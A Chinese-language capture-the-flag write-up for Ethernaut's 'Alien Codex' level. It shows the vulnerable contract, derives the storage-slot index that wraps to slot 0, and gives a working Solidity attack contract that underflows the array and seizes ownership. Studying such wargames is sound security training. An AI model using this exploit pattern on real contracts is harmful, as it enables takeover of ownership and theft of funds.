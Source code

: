#   Level 19 Alien Codex
實例地址：`0x6FfFDB7cAf247C612369eC6024C203ddc82cD184`

##  題目說明
你揭開了一個 Alien 合約. 宣告你的所有權來完成這一關。

  可能會有用的資訊

研究陣列是如何在 storage 中運作的
研究 ABI specifications
使用一個非常 狡詐 的手段
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

##  POC
這關是透過動態陣列溢位的方式更改到 `slot 0` 的數值，`storage`的最大存儲量 $2^{256}$ slots。
計算方式起始位置為 `keccak256(p)`，`p` 為存放陣列長度的值，`codex[0]` 的記憶體位置為 `keccak256(1) + 0`, `codex[1]` 為 `keccak256(1) + 1`，所以我們只要計算 $2^{256}-keccak256(1)$ 就可以推導出他的 `index`。

### 推導公式
$$
codex[0] = keccak256(1) + 0 \newline
codex[index] = keccak256(1) + index \newline
codex[index] = keccak256(1) + index = 2^{256} \newline
index = 2^{256} - keccak256(1)
$$

| Slot Number | Variables |
|-------------|-----------|
| 0           | address _owner & bool contact |
| 1           | len(codex) |
| ...         | ... |
| keccak256(1) | codex[0] |
| keccak256(1)+1 | codex[1] |
| keccak256(1)+2 | codex[2] |
| ...         | ... |
| 2^256       | codex[2^256 - 1 - unit(keccak256(1))] |
| 0           | codex[2^256 - 1 - unit(keccak256(1)) + 1] : (slot 0) |

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface AlienCodex{
    function makeContact() external;
    function retract() external; // 將陣列長度設置為 2^256-1
    function revise(uint256 i, bytes32 _content) external;
}

contract Attack{
    constructor(address target){
        AlienCodex(target).makeContact();
        AlienCodex(target).retract();
        uint256 index = (2**256-1) - uint256(keccak256(abi.encode(1))) + 1; // (2**256-1) 讓 complier 不會偵測到數值溢位，最後在把 1 加回去
        AlienCodex(target).revise(index, bytes32(uint256(uint160(tx.origin))));
        //將值改為地址存入
        //提醒將值直接改為 bytes20 是會放在前面 0xhere 而不適 0x....here
    }
}
```